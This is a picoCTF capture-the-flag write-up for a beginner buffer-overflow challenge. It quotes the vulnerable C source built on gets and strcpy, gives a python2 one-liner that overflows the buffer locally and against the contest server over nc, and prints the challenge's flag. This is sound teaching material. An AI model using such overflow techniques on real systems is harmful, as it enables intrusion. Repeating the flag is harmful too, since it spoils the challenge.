 **Description**

Author: Alex Fulton / Palash Oswal

Smash the stack Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here. And connect with it using: nc saturn.picoctf.net 64712

Hints
1) How can you trigger the flag to print?
2) If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.
3) Run ```man gets``` and read the BUGS section. How many characters can the program really read?

**Tools**

The main concept of a [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow) attack is to get the computer to put more bits into a variable than that variable can hold in the stack memory of that program. 
To preform this attack a basic understanding of how memory is stored in the [stack](https://en.wikipedia.org/wiki/Stack_(abstract_data_type)) and how [assembly](https://en.wikipedia.org/wiki/Assembly_language) and [C](https://en.wikipedia.org/wiki/The_C_Programming_Language) can manipulate the stack. It is crucial to understand future challenges what is going on in this exploit to complete future exploits in the competition, however a crude understanding and playing around with the program can get you the flag in this challenge.

In this writeup and subsequent binary exploitation writeups, I will be using the tools [Ghidra](https://github.com/NationalSecurityAgency/ghidra), [GDB](https://en.wikipedia.org/wiki/GNU_Debugger), and an extension for GDB called [pwndbg](https://github.com/pwndbg/pwndbg).
This tools together provide excellent static and dynamic analysis of a binary. 
Another tool to look at is radare2, however I did not use it for this writeup.
This competition is an excellent place to learn how to use these programs, however I will not be teaching them in entirety.

**Research**

Our local binary isn't marked as executable after downloading this. Lets fix this ```chmod +x vuln```
Use the pre-compiled binary instead of compiling it from source, these binaries use special compiler flags to stop the compiler from protecting the developer from their own mistakes while programming.

Lets look at the source code of the file provided:

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```

First, we need to make a flag.txt file in the same directory as vuln with a test flag to preform this locally, create a test flag with a set of characters you can remember as your test flag. I am using ```testFlag{zyzyzyzy}```

```gets``` is a vulnerable function within C that should not be used for development of any project, see ```fgets``` for developing a program. The binary exploitation series of challenges demonstrates why gets is so dangerous.
This program uses gets, so it is something to look into. Gets will read characters into memory past the buffer of that variable causing the easiest way to have a buffer overflow.

Naive or accidental buffer overflows will often return a SIGSEGV fault as you overwrite something crucial and crash the program, this will halt execution unless a SIGSEGV handler is written to deal with this issue.
Lets look a bit closer at the program, and look at that: 

```signal(SIGSEGV, sigsegv_handler);``` 

The function sigsev_handler is set up as how to deal with a SIGSEGV fault! This function also happens to print the flag!

**Exploit**

Look at where gets stores its input. It stores them in the character array ```buf1```, which has a size of 100. This means that we need to store more than 100 characters in buf1 and then overwrite something critical to the program to cause SIGSEGV to happen, and our flag to print. Lets use \*python2 to input characters into the program to make this easier and pipe that input into the vuln program.

```python2 -c 'print("a"*150)' | ./vuln```
Look at that, it prints the test flag! ```testFlag{zyzyzyzy}```

Now, lets try and do this to the actual server given in the challenge description

```python2 -c 'print("a"*150)' | nc saturn.picoctf.net 64712```

We then get our flag! ```picoCTF{ov3rfl0ws_ar3nt_that_bad_81929e72}```


\*python2 deals with characters as binary in a way that is more familiar to me. It will input characters into stack the way that I expect them too.
